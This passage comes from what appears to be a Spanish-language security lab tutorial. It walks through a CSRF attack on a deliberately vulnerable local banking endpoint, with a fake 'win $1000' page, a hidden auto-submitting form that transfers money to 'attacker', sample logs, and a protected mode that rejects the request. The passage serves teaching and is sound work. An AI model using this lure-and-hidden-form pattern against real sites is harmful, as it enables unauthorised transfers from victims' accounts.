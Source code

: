    ```json
   {
     "success": true,
     "message": "Transferred $100 from admin to alice",
     "warning": "This endpoint has no CSRF protection!"
   }
   ```

7. **Cambia a modo "Seguro"** y prueba de nuevo:
   ```json
   {
     "success": false,
     "error": "Invalid CSRF token"
   }
   ```

---

### 🔴 Paso 3: Ver el Ataque Visual (Sitio Malicioso)

1. Abre el servidor atacante:

   ```
   http://localhost:3002
   ```

2. Haz clic en **"CSRF Demo"**

   ```
   http://localhost:3002/csrf-demo.html
   ```

3. Verás un sitio falso con "¡Gana $1000 Gratis!"

4. **IMPORTANTE:** Asegúrate de estar autenticado (Paso 1)

5. Haz clic en el botón **"¡RECLAMAR MI PREMIO!"** 🎉

6. **Observa el log en tiempo real:**

   ```
   🎯 Usuario hizo clic en el botón...
   📤 Enviando formulario oculto CSRF...
   🔑 Token JWT encontrado (solo funciona en localhost)
   🔓 Navegador enviando cookies automáticamente...
   ✅ ¡Ataque CSRF exitoso!
   💸 Transferred $1000 from admin to attacker
   ```

7. Verás un alert: "¡Felicidades! Tu 'premio' ha sido procesado... 😈"

---

## 🔍 ¿Qué Está Pasando?

### En el Sitio Malicioso (csrf-demo.html):

```html
<!-- Formulario CSRF oculto -->
<form
  id="csrfForm"
  action="http://localhost:3101/api/vulnerable/csrf/transfer-money"
  method="POST"
>
  <input name="toUser" value="attacker" />
  <input name="amount" value="1000" />
</form>

<script>
  // Usuario hace clic en botón "inocente"
```